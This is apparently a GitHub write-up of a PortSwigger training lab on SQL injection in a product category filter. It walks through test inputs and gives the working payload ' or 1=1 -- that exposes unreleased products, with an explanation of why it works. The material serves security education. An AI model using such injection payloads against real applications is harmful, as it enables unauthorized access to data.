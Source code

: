 ## SQL injection - product category filter

The primary goal of this lab is to manipulate SQL queries to display all products, including those not meant to be released or shown to users. Typically, a product's visibility is controlled by a 'released' flag in the database, with '1' indicating that the product is released and '0' indicating it is not.


ref:

```
https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data
```

SELECT * FROM products WHERE category = 'Gifts' AND released = 1

**End goal:** display all products both released and unreleased.

### Vulnerability Analysis

In this scenario, the application uses a query to filter products based on their category and whether they have been released:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

The goal is to modify this query so it returns all products, regardless of their 'released' status.

### Attack Vectors

Below are a series of SQL manipulations attempted to exploit the vulnerability:

1. **Initial Attempt**:

   ```sql
   SELECT * FROM products WHERE category = 'Pets' AND released = 1
   ```

   This query changes the category but still only shows released products.
2. **Syntax Testing**:

   ```sql
   SELECT * FROM products WHERE category = ''' AND released = 1
   ```

   This introduces a syntax error to test the application's handling of SQL input.
3. **Commenting Out**:

   ```sql
   SELECT * FROM products WHERE category = ''--' AND released = 1
   ```

   Attempts to comment out the rest of the SQL query but incorrectly formatted.
4. **Empty Category**:

   ```sql
   SELECT * FROM products WHERE category = ''
   ```

   Removes the category filter but doesn't address the 'released' condition.
5. **Successful Exploit**:

   ```sql
   SELECT * FROM products WHERE category = '' or 1=1 --' AND released = 1
   ```

   This is the successful payload. By injecting `' or 1=1 --`, it effectively removes the filter on the 'released' status, making the query return all products. The `1=1` is always true, and `--` comments out the rest of the query, preventing any syntax errors or further conditions from being applied.

### Test Payloads

To exploit this vulnerability, the following payloads were tested:

- `'`
- `'--`
- `' or 1=1 --`

The payload that solved the lab and achieved the objective of revealing all products was:

```sql
' or 1=1 --
```

## How It Works

The successful payload works by breaking out of the application's intended SQL query structure and injecting our own logic that always evaluates to true. By appending `--`, we ensure the original query's remaining parts are ignored by the database, effectively bypassing any filters the application intended to apply.
